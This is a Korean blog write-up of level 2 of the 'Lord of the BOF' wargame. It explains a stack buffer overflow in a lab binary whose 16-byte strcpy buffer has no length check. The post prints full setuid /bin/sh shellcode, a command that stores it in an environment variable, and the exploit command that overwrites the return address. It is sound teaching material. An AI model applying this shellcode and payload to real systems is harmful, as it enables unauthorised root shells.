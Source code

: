 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 2"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level2/1.jpg" | relative_url }}' alt='relative'>  

## 1) gremlin/hello bof world 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level2/2.png" | relative_url }}' alt='relative'>  

level1번 문제와 비슷하지만 buffer 배열의 길이가 16 byte 입니다.  
배열에 쉘코드를 입력하는 방법은 적용할 수 없습니다.  
Eggshell 방식으로 문제를 해결하면 됩니다.  

<p id="stack">
## 2) cobolt 프로그램 스택 구조 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level2/3.png" | relative_url }}' alt='relative'>  

``` bash
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
```

해당 부분을 보면 ebp 레지스터가 가리키고 있는 주소에서 16 byte 떨어진 위치에 buffer 배열이 위치하고 있습니다.  
RET 위치에 쉘코드가 저장된 환경변수 주소를 입력해주면 됩니다.  
buffer에 문자열을 입력할 때 길이 제한을 설정하지 않았기 때문에 RET 위치까지 공격자가 원하는 값을 입력할 수 있습니다.  

공격 페이로드는 20byte(=buffer(16byte)+SFP(4byte))의 NOP(\x90)과 환경변수 주소 4byte를 입력하여 총 24 byte가 됩니다.  

## 3) Eggshell 만들기  

``` bash
// Shellcode (setuid 포함, 39 byte)
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

// Shellcode (setuid 미포함, 25 byte)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

``` bash
./getenv
```

<img data-action="zoom" src='{{ "assets/lob/level2/4.png" | relative_url }}' alt='relative'>  

## 4) 공격 페이로드 입력하여 BOF 일으키기  

``` bash
./cobolt `python -c 'print "\x90"*20+"\x90\xfe\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/lob/level2/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level2/6.png" | relative_url }}' alt='relative'>  
